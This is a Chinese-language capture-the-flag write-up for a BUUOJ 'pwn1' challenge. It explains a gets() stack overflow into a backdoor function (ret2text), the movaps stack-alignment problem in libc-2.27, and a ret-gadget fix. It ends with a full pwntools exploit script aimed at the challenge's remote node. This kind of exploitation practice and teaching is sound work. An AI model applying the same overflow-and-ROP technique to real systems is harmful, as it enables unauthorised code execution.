


# 知识点

ret2text、堆栈平衡


# 题目分析

1. 查看保护情况，没开启任何保护。

   ```bash
   [*] '/root/Desktop/pwn1'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX disabled
       PIE:      No PIE (0x400000)
       RWX:      Has RWX segments
   ```

2. 拖入IDA分析，发现存在gets栈溢出漏洞，存在后门函数。

   

   

3. 直接ret2text即可。构造Exp：

   ```python
   payload = padding * 0XF + 'deadbeef' + p64(返回地址)
   ```

4. 但是发现本地可以打通，远程打不通，结合题目提示ubuntu18，采用libc-2.27。

   在某些2.23以上的libc版本中，system函数中的movaps指令会检查操作数所在地址是否为0x10的倍数。

   由于64位程序指令地址为8字节，在该题中movaps参数地址只可能是0x8的倍数或0x10的倍数两种情况。

   我们通过溢出手段非法进入后门函数可能会导致调用system时触发该检查失败，即参数地址是0x8的倍数。

   因此我们只需要将payload长度增加8字节即可。

5. 使用ROPgadget寻找ret指令加在返回地址前即可使后续地址都+8。

   ```bash
   ROPgadget --binary pwn1 --only "pop|ret"
   ```

   

# Exp

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./pwn1')
io = remote('node4.buuoj.cn', '25292')

ret = 0x401016
backdoor = 0x401186

payload = 'A' * 0xF + 'deadbeef' + p64(ret) + p64(backdoor)

io.sendline(payload)

io.interactive()
```

